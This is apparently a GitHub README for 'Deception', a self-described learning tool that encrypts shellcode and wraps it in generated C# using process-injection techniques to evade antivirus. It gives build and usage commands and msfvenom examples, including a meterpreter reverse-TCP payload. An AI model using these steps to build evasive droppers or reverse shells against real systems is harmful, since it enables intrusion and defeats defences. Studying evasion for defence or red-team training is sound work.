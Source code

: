 # Deception
Simple AV Evasion Generator for me to learn evasion techniques

### Overview
Current
1. Deception will read in a file containing shellcode
2. Encrypt it with AES 256 using random key & iv and Base 64 encode
3. This is then placed into a generated source file using a given injection method (from Modules) and compiled

Later versions will incorporate
- Move Project to Visual Studio
- More kernel32 methods
- ntdll.dll and direct syscall methods
- PPID Spoofing
- .NET Obfuscation
- More languages
- and more...

### Usage
```
# Compile
sudo apt install mono-devel
mcs -out:Deception.exe -pkg:dotnet Utils/* Services/* Models/*  Modules/*  Deception.cs
# Run
./Deception.exe
```

#### Help Menu
```
Usage: 
  ./Deception.exe msf.bin -i       # for inline
  ./Deception.exe msf.bin -t       # for inline: CreateThread
  ./Deception.exe msf.bin -r       # for remote: CreateRemoteThread via given PID
  ./Deception.exe msf.bin -s       # for remote: Spawn notepad.exe and Queue APC inject
  ./Deception.exe msf.bin -a       # makes all of the above
Paylod Examples: 
   msfbin: msfvenom -p windows/x64/exec -f raw CMD=calc.exe -o msf.bin
   msfbin: msfvenom -p windows/x64/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 LHOST=192.168.0.1 LPORT=8080 -f raw -o msf.bin
```

#### Usage Example
![Usage](./Images/deception.png)

### Extras
<details>
<summary>Structure</summary>

Deception.cs - Main Program

Models/
- Module.cs - Enum for Types, Base Class for Modules, and Default Header + Footer

Modules/
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

ModuleSource/ - Source files for each Module (for Testing a technique and then porting to a Module)
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

Payloads/
- d71a2331-af9f-4397-bb34-f502c62db7f2.cs  - example generated source file
- d71a2331-af9f-4397-bb34-f502c62db7f2.exe - compiled above file

Services/
- CommandService.cs   - For suggested commands to run payload
- CompilerService.cs  - Compiles generated source
- DeceptionService.cs - Main Service responsible for managing the full deception process
- GeneratorService.cs - Generates a source (encryption calls happen here)
- WriteService.cs

Utils/
- Crypto.cs   - AES and Encoding
- Kernel32.cs - Kernel32 API
</details>

